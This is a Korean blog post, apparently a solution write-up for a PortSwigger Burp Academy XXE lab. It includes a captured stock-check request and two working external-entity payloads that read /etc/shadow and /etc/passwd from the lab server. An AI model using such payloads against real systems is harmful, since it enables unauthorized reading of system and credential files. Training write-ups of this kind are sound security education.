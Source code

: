 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Exploiting XXE using external entities to retrieve files
- https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## 랩설명
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entiry 를 삽입해서 /etc/passwd 파일의 내용을 읽으면 성공이다. 
```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```


## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

HTTP 응답은 다음과 같다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
https://github.com/payloadbox/xxe-injection-payload-list
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용이 돌아왔다. 

``` 
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&foo;</productId><storeId>1</storeId></stockCheck>
```

![Check stock기능](/images/burp-academy-xxe-1-3.png)



![Check stock기능](/images/burp-academy-xxe-1-2.png)